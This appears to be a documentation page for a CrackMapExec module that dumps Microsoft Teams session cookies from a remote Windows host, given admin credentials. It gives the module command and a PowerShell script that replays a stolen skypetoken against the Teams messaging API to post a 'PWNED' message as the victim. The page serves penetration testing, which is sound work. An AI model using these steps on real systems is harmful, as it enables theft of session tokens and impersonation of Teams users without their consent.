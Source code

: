 # MS Teams Cookies

{% hint style="warning" %}
You need at least local admin privilege on the remote target
{% endhint %}

New CrackMapExec module to dump Microsoft Teams cookies thanks to [@KuiilSec](https://twitter.com/KuiilSec) contribution. You can use them to retrieve information like users, messages, groups etc or send directly messages in Teams.

```
$ crackmapexec smb <ip> -u user -p pass -M teams_localdb
```

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

Send the pwned message using this script:

```
# original code from Connor Peoples / https://twitter.com/NoUselessTech
# modified for cme @mpgn_x64 POC

$Token = "skypetoken=YOUR_TOKEN"

    
$Header = @{
    authentication = $Token
    "content-type" = "application/json"
    "x-ms-client-request-id" = [guid]::NewGuid().ToString()
    "x-ms-client-session-id" = [guid]::NewGuid().ToString()
}

$id = ""
(1..19) | ForEach-Object {  
    $id += Get-Random(1..9) 
}

$Url = "https://amer.ng.msg.teams.microsoft.com/v1/users/ME/conversations/48:notes/messages"
$Body = @{
    content ="<p>PWNED</p>"
    messagetype = "RichText/Html"
    contenttype = "text"
    amsreferences = @()
    clientmessageid = $id
    imdisplayname = "Threat Bot"
    properties = @{
        importance = "high"
        subject = "You've Been PWND"
    }
}
    
Invoke-RestMethod `
    -Uri $Url `
    -Method POST `
    -Headers $Header `
    -Body ($Body | ConvertTo-Json)
```
